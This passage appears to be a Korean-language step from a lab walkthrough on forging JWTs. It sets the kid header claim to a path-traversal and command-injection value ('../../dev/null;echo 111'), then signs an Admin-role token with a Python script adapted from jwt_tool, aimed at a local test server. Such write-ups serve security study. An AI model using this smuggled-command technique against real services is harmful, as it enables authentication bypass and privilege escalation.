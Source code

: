 <img src="24.png" width=40% style="display: block; margin: auto"/>



### --- Step 03 토큰 변조
아래 파이썬 코드를 이용하여 kid 클레임에 "../../../../../../../../../../../../dev/null;echo 111" 값을 넣은 후 토큰을 생성합니다.
"/dev/null" 파일을 읽어 아무 값도 출력되지 않도록 한 후, "echo 111" 명령어를 실행하여 "111{줄바꿈}" 값이 키 값으로 들어가도록 유도하였습니다.

> 해당 코드는 [JWT_Tool](https://github.com/ticarpi/jwt_tool)에서 필요한 부분을 가져와 수정하였습니다.

```python
import base64
import json
from termcolor import cprint
import hashlib
import hmac

# Header, Payload 딕셔너리를 Base64 인코딩하여 출력
def genContents(headDict, paylDict, newContents=""):
    if paylDict == {}:
        newContents = base64.urlsafe_b64encode(json.dumps(headDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")+"."
    else:
        newContents = base64.urlsafe_b64encode(json.dumps(headDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")+"."+base64.urlsafe_b64encode(json.dumps(paylDict,separators=(",",":")).encode()).decode('UTF-8').strip("=")
    return newContents.encode().decode('UTF-8')


if __name__ == '__main__':
    # 토큰을 변조하여 headDict, paylDict에 입력
    # kid 값에 OS Command injection을 시도하여 출력이 "111{줄바꿈}"이 되도록 하였음
    headDict = {"alg": "HS256","typ": "JWT","kid": "../../../../../../../../../../../../dev/null;echo 111"}
    paylDict = {"account": "Bob","role": "Admin","iat": 1659520555,"aud": "https://127.0.0.1/jwt/kid00"}

    # 사용할 키 값 읽어옴
    key = open("test.txt").read()

    newContents = genContents(headDict, paylDict)
    newSig = base64.urlsafe_b64encode(hmac.new(key.encode(),newContents.encode(),hashlib.sha256).digest()).decode('UTF-8').strip("=")

    print(newContents+"."+newSig)
```
